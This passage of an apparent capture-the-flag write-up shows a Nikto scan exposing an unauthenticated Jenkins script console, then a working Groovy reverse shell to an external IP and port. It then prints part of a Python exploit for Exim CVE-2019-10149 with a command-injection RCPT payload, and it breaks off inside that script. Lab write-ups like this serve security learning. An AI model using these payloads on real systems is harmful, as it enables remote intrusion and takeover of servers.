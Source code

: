 ```bash
+ Uncommon header 'x-hudson' found, with contents: 1.395
+ Uncommon header 'x-jenkins-cli2-port' found, with contents: 40801
+ Uncommon header 'x-jenkins-session' found, with contents: a5ed1c9e
+ Uncommon header 'x-jenkins' found, with contents: 1.637
+ Uncommon header 'x-ssh-endpoint' found, with contents: localhost:41811
+ Uncommon header 'x-hudson-theme' found, with contents: default
+ /jenkins/manage: Jenkins/Hudson Management console accessible without authentication.
+ /jenkins/script: Jenkins/Hudson Groovy Script console accessible without authentication. This allows to execution of shell commands.
+ /manager/status: Default Tomcat Server Status interface found
+ 7802 requests: 0 error(s) and 24 item(s) reported on remote host
+ End Time:           2022-12-10 00:39:24 (GMT1) (2057 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

It found the page `/jenkins/script` allowing execution of shell commands without authentification.

This page executes 'Groovy' scripts. I used this reverse shell in Groovy:

```groovy
String host="193.161.193.99";int port=24193;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And I got a shell!

After running `find / -iname 'flag*'`, I found the flag in `/usr/local/share/man/FLAG.txt`.

## Service

### Eskimo 1

After running nmap, I’ve found that the service running behind the port is Exim 4.89.

I searched on Google for CVE and I found the **CVE-2019-10149.** I used it for RCE.

I used the POC of MNEMO-CERT as a base:

```python
#!/usr/bin/python3
import sys, socket, argparse

class exim_rce(object):
        def smtp_connect(self, hex_cmd, exim):
                message = "Received: 1\nReceived: 2\nReceived: 3\nReceived: 4\nReceived: 5\nReceived: 6\nReceived: 7\nReceived: 8\nReceived: 9\nReceived: 10\nReceived: 11\nReceived: 12\nReceived: 13\nReceived: 14\nReceived: 15\nReceived: 16\nReceived: 17\nReceived: 18\nReceived: 19\nReceived: 20\nReceived: 21\nReceived: 22\nReceived: 23\nReceived: 24\nReceived: 25\nReceived: 26\nReceived: 27\nReceived: 28\nReceived: 29\nReceived: 30\nReceived: 31"
                rcpt = r"<${run{\x2Fbin\x2Fbash\t-c\t\x22" + hex_cmd + r"\x22}}@localhost>"
                server = exim

                try:
                        print("[+] Trying to connect to the server")
                        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect(server)
                        s.recv(1024)
                        print("[+] Sending commands to the Exim Server")
                        s.send("HELO evil.localhost\r\n".encode())
                        s.recv(1024)
                        s.send("MAIL FROM: <>\r\n".encode())
```